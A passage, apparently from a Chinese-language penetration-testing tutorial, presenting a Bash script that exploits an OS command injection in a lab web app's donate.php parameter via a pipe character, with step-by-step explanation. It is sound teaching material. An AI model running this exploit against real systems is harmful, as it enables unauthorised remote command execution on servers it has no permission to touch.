 列表 6-2 显示了一个示例解决方案。

os-command -injection.sh

```
#!/bin/bash

read -rp 'Host: ' host
read -rp 'Port: ' port

while true; do
  read -rp '$ ' raw_command
  command=$(printf %s "${raw_command}" | jq -sRr @uri)

  # Store the previous list of command outputs.
❶ prev_resp=$(curl -s "http://${host}:${port}/amount_to_donate.txt")

  # Execute the OS Command Injection vulnerability.
❷ curl -s -o /dev/null "http://${host}:${port}/donate.php?amount=1|${command}"

  # Store the new list of command outputs.
❸ new_resp=$(curl -s "http://${host}:${port}/amount_to_donate.txt")

  # Extract only the difference between the two command outputs.
❹ delta=$(diff --new-line-format="%L" \
                       --unchanged-line-format="" \
                       <(echo "${prev_resp}") <(echo "${new_resp}"))

 # Output the command result.
  echo "${delta}"

done 
```

列表 6-2：操作系统命令注入接口

这段代码与 Web Shell 接口脚本的开始非常相似：通过收集目标连接详情，并开始一个 while 循环，提示用户输入要编码的命令。

在发送操作系统命令注入请求之前，脚本首先需要对 *amount_to_donate.txt* 文件的内容进行快照，并将其保存到名为 prev_resp 的变量中 ❶。稍后我们会讨论这样做的原因。

在下一个 curl 请求中，我们将 amount 参数注入编码的命令，并在其前面添加 1| 值 ❷。发送 curl 请求后，我们会发送另一个快照请求，捕获 new_resp 变量中的新 *amount_to_donate.txt* 文件内容 ❸。

最后，为了显示命令的正确输出，我们运行一个 diff 操作，提取 prev_resp 和 new_resp 变量之间的差异 ❹。diff 输出会存储在 delta 变量中，展示了注入后新创建的所有 *amount_to_donate.txt* 文件行。

尝试扩展这个脚本，使它更有用。例如，你可以增加支持查看所有已执行命令及其响应的功能，通过将它们写入文件，然后在脚本运行时，当使用特殊命令时再显示它们。

## 绕过命令注入限制

正如我们观察到的那样，开发人员通常会实施数据清理检查，以防止针对其 Web 应用的操作系统命令注入攻击。我们运气不错，因为目标中没有阻止管道符（|）字符。即便如此，了解一些绕过命令注入控制的方法仍然很重要。

### 混淆和编码
